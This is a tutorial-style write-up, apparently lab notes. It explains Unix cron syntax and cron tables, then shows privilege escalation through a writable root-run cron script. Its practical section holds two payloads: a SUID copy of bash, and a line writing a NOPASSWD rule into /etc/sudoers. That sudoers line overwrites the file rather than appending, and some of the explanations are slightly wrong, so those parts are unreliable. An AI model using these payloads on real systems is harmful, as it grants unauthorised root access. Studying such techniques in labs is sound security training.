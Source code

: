 _**TO VIEW PRACTICAL, [CLICK HERE](#Practical)**_

# Cron jobs
`Cron` is a utility used in Unix systems to schedule tasks; it uses the cron daemon, `crond`, to run in the background and manage the execution of cron jobs by reading and processing the `cron table`. A cron job is a task scheduled to run in a given period that helps users automate routine tasks such as archiving logs or backing up system files. Cron jobs are maintained in cron tables, configuration files located at `/var/spool/cron/crontabs` and '/etc/crontab' that define the schedules of tasks. Cron tables can be specific to the system or individual users.

## Syntax

The system-wide cron table is readable by regular users and can be accessed with any text editor:
```
vim /etc/crontab
```
To edit the system-wide cron table, you must be a privileged user
```
sudo vim /etc/crontab
```
You can list the cron table your account has access to with the command:
```
crontab -l
```
To edit or add a cron table, you can use the command:
```
crontab -e 
```
To schedule a cron job, use the following syntax:
```
* * * * * /path/to/file
```
Where:
- The first asterisk represents the minute (0-59)
- The second asterisk represents the hour (0-23)
- The third asterisk represents the day of the month (1-31)
- The fourth asterisk represents the month (1-12)
- The fifth asterisk represents the day of the week (0-7, where 0 and 7 both represent Sunday)

Cron syntax also uses operators on provided values in cron fields.
- An asterisk (*) represents all values.
- A comma (,) specifies a list of values.
- A dash (-) indicates a range of values.
- A forward slash (/) is used as a step value.

```
30 5 */2 * * /home/kayem/script.sh
```
The cron job above will execute /home/kayem/script.sh at 5:30 on every second day of the month.

## Managing cron tables

There are two types of cron tables: system and user. System cron tables are located at `etc/crontab` and require root privileges to edit. They contain scheduled tasks that apply to the entire system and tasks that need to be executed as the root for high-privileged operations. To edit the system cron table, you have to use a text editor such as Vim, or Nano, as attempting to edit it with `sudo cron tab -e` will revise the personal cron table of the root user, rather than the system cron table. As for the user cron table, each user has their own cron table. Although it is not created automatically, it can be created by a system administrator or the user. An admin can create a cron table for a user with the command:
```
crontab -e -u [USER]
```
Users can create a cron table without root privileges but are limited to scheduling tasks with the files they have permission to execute.

## Security implications of cron jobs

If misconfigured, cron jobs can exploit high privileges and gain unauthorised access to critical system resources. Therefore, it is necessary that personal cron jobs run with the privileges of the user; rather than higher privileged users. If a cron job file has the SUID bit set, is owned by a higher privileged user, like root, and a regular user has write permissions, they can inject malicious code to be executed that spawns a root shell, deletes critical files, terminates services, and the like.

## Practical

I began by identifying which cron jobs the user has access to with `crontab -e`, for local cron jobs, or `cat /etc/crontab` for system-wide cron jobs. With `cat /etc/crontab` 

```
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
These four cron jobs are executed as root. Since '/home/karen/backup.sh' is owned by the user, I will be targeting this cron job to escalate privileges. I check the permissions of the shell script with
```
ls -l /home/karen/backup.sh
```
The script only has read and write permissions for the file owner, so I add execute permissions to allow the script to be executed.
```
chmod +x /home/karen/backup.sh
```
Now that the cron job can be executed, we can modify the file with two payloads to escalate privileges.

### Method 1

The following payload 

`cp /bin/bash /tmp/bash; chmod +s /tmp/bash`

'/tmp/bash -p'

### Method 2

Alternatively, you can add your user to the /etc/sudoers file.

```
echo "karen ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

